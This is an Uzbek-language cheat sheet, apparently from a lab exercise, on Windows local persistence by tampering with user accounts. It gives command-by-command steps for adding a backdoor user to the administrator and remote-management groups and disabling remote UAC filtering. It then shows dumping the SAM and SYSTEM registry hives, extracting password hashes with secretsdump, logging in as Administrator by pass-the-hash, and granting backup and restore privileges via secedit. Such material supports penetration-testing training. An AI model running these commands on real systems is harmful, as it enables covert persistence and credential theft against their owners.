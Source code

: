 # Bo'rimiz, gohida qo'yni maskasini ham kiyishimizga to'g'ri keladi)
Bizda Admin huquqi bor backdoor user qoldirishimiz, keyingi ishalrni o'sha userlardan qilishimiz mumkin.


### Userni Guruhlarga qo'shish
Adminlar gruppasiga:
```
net localgroup administrators __username__ /add
```

BackUp gruppasiga:
```
net localgroup "Backup Operators" __username__ /add
```

Remote management group:
```
net localgroup "Remote Management Users" __username__ /add
```
Bu bizga masofadan ulanishga imkon yaratadi.


### Userga ulanish:
```
evil-winrm -i 10.10.187.100 -u thmuser1 -p Password321
```
Agar o'rnatilmagan bo'lsa, Arch uchun buyruq:
```
sudo pacman -S evil-winrm
```

Agar biz **evil-winrm**dan foydalanmasdan GUI tarzda ulanishni istasak muhitni quyidagicha qilishimiz kerak:
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
ushbu buyruq bajarilgach qayta ulanishimiz kerak.


**evil-rm** bilan ulangach:
![Photo](https://github.com/akhatkulov/cheatsheets-for-windows/blob/main/Windows%20Local%20Persistence/Tampering%20With%20Unprivileged%20Accounts/whoami_group.png)
```
whoami /group
```



**evil-winrm** ga ulangach parollarni olish:

## 🎯 Maqsad:

Tizimda **Administrator huquqini olish** – oddiy foydalanuvchi orqali. Buning uchun biz quyidagilarni bajaramiz:

---

## 📦 1. **SAM va SYSTEM fayllarini zaxiralash (backup qilish)**

Windows’dagi **SAM (Security Account Manager)** fayli foydalanuvchilarning **parol xeshlarini** saqlaydi. Buni o‘qib olish uchun biz `SeBackupPrivilege`ga ega bo‘lishimiz kerak (bu huquq siz ilgari `thmuser2` ga bergansiz).

🔧 **Buyruqlar (Evil-WinRM ichida):**

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
```

Bu harakatlar quyidagi fayllarni yaratadi:

* `system.bak` – SYSTEM reyestr bo‘limining nusxasi
* `sam.bak` – SAM reyestr bo‘limining nusxasi

---

## 📥 2. **Fayllarni o‘z mashinamizga yuklab olish**

```powershell
download system.bak
download sam.bak
```

> Agar yuklashda muammo bo‘lsa (sekinlik yoki blok), boshqa usullardan ham foydalanishingiz mumkin (masalan, `certutil`, `ftp`, `python3 -m http.server`, va h.k.).

---

## 🧠 3. **Parollarni olish (hashlarni chiqarib olish)**

Endi bizda `sam.bak` va `system.bak` fayllar bor. Bu fayllar yordamida parollarni xesh ko‘rinishida chiqarib olish mumkin. Buning uchun **`secretsdump.py`** dan foydalanamiz (bu Impacket to‘plamida bo‘ladi).

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

### 🔓 Natijada:

Siz foydalanuvchilarning xesh parollarini olasiz, masalan:

```
Administrator:500:...:1cea1d7e8899f69e89088c4cb4bbdaa3:::
```

> Bu yerda oxirgi `nt hash` – **Administrator foydalanuvchisining parol xeshi**

---

## 🗝️ 4. **Pass-the-Hash hujumi (xesh orqali tizimga kirish)**

Endi bizda `Administrator` foydalanuvchisining xeshi bor. Biz parolni bilmasak ham, **xesh bilan tizimga kira olamiz** – bu **Pass-the-Hash (PTH)** deyiladi.

```bash
evil-winrm -i 10.10.209.127 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

✅ Agar bu muvaffaqiyatli bo‘lsa, siz **Administrator sifatida tizimga kira olasiz**!

---

## 🔚 Xulosa

| Bosqich                       | Maqsad                                      |
| ----------------------------- | ------------------------------------------- |
| 1. SAM & SYSTEM ni zaxiralash | Parol xeshlarini olish                      |
| 2. Fayllarni yuklash          | Mahalliy tahlil qilish uchun                |
| 3. secretsdump.py ishlatish   | Xeshlarni chiqarib olish                    |
| 4. Pass-the-Hash              | Parol bilmasdan Administrator bo‘lib kirish |

---

## 🎯 Maqsad:

Foydalanuvchini hech qanday maxsus guruhga qo‘shmasdan turib unga quyidagi **privilege**larni beramiz:

* `SeBackupPrivilege` – istalgan faylni **o‘qish huquqi**, hatto unga ruxsat bo‘lmasa ham
* `SeRestorePrivilege` – istalgan faylga **yozish huquqi**, ruxsat so‘rovisiz

---

## 🛠️ Bosqichlar:

### ✅ 1. Hozirgi xavfsizlik siyosatini eksport qilish

```cmd
secedit /export /cfg C:\config.inf
```

> Bu `C:\config.inf` fayliga tizimdagi huquq (privilege) sozlamalarini yozadi.

---

### ✅ 2. Faylni oching va foydalanuvchini quyidagi joylarga qo‘shing

Faylni `notepad` yordamida oching:

```cmd
notepad C:\config.inf
```

### 🔽 Toping va **foydalanuvchini qo‘shing**, masalan `thmuser2`:

```
SeBackupPrivilege = *S-1-5-32-544,thmuser2
SeRestorePrivilege = *S-1-5-32-544,thmuser2
```

> Ehtiyot bo‘ling: mavjud foydalanuvchilar ro‘yxatini **ustiga yozmang**, faqat **vergul bilan ajratib yangi foydalanuvchini qo‘shing**.

---

### ✅ 3. Yangi konfiguratsiyani import qilish

```cmd
secedit /import /cfg C:\config.inf /db C:\config.sdb
```

### ✅ 4. Sozlamani tizimga qo‘llash:

```cmd
secedit /configure /db C:\config.sdb /cfg C:\config.inf
```

---

## ✅ 5. Kompyuterni qayta ishga tushiring yoki sessiyani yangilang

```cmd
shutdown /r /t 0
```

Yoki foydalanuvchi sessiyasini chiqib/kirib yangilang.

---

## 🧪 Tekshirish

Foydalanuvchi hozir **quyidagi huquqlarga ega**:

* Har qanday faylni o‘qiy oladi (shu jumladan `C:\Windows\System32\config\SAM`)
* Har qanday joyga yozish huquqiga ega

---

## 🔐 Eslatma:

Bu imtiyozlar **Windows xavfsizlik modeli**da juda muhim rol o‘ynaydi. Ulardan noto‘g‘ri foydalanish tizimni xavf ostiga qo‘yadi. Masalan, bu huquqlar orqali:

* `SAM` va `SYSTEM` fayllarini o‘qib, **xeshlar chiqarib olish** mumkin
* Admin parolini **Pass-the-Hash** bilan chetlab o‘tish mumkin
